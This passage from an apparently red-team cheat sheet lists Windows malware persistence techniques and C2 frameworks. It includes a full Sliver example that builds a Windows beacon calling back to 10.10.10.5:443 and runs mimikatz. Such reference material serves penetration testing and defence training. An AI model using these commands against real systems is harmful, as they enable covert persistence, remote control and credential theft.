 ***

### VIII. ⚙️ Persistence Mechanisms

| Type                       | Technique                                          | Command                                                                    |
| -------------------------- | -------------------------------------------------- | -------------------------------------------------------------------------- |
| **Registry Run Key**       | HKCU\Software\Microsoft\Windows\CurrentVersion\Run | `reg add ...`                                                              |
| **Scheduled Task**         | Task triggers malware every reboot                 | `schtasks /create ...`                                                     |
| **Service Creation**       | Create malicious Windows service                   | `sc create ...`                                                            |
| **WMI Event Subscription** | Reactivate payload on event                        | WMI permanent event                                                        |
| **Startup Folder**         | Drop EXE in user’s startup path                    | `copy payload.exe %appdata%\Microsoft\Windows\Start Menu\Programs\Startup` |

***

### IX. ⚙️ Command & Control (C2) Frameworks

| Framework         | Language   | Highlights                             |
| ----------------- | ---------- | -------------------------------------- |
| **Cobalt Strike** | Java       | Mature, stealthy, beacon-based         |
| **Sliver**        | Go         | Free, OPSEC-focused C2                 |
| **Mythic**        | Python     | Modular, cross-platform                |
| **Empire**        | PowerShell | Ideal for Windows operations           |
| **Covenant**      | .NET       | Powerful GUI and payload generation    |
| **Havoc**         | C++        | Modern post-exploitation & EDR evasion |

***

#### 🧩 Example: Sliver C2 Setup

```bash
sliver-server
generate beacon --os windows --arch amd64 --format exe --http 10.10.10.5:443
```

→ Listener + beacon connection\
Use:

```bash
sessions
info
run mimikatz
```

***

### X. ⚙️ Evasion & OPSEC
